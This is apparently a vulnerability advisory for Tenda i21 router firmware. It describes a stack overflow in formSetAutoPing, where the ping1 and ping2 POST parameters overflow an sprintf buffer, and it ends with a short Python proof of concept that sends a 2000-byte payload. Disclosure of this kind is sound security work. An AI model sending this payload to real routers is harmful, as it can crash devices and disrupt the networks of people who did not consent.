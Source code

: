 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formSetAutoPing` function. The `ip1, ip2` variable receives the `ping1, ping2` parameter from a POST request. However, since the user can control the input of `ping1, ping2`, the statement `sprintf(auto_ping_ip, "%s;%s", ip1, ip2);` can cause a buffer overflow. The user-provided  `ping1, ping2` can exceed the capacity of the `auto_ping_ip` array, triggering this security vulnerability.

![image-20240419203954082](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419203954082.png)

## POC

```python
payload = b"a"*2000

data = {"linkEn": 1, "ping1": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
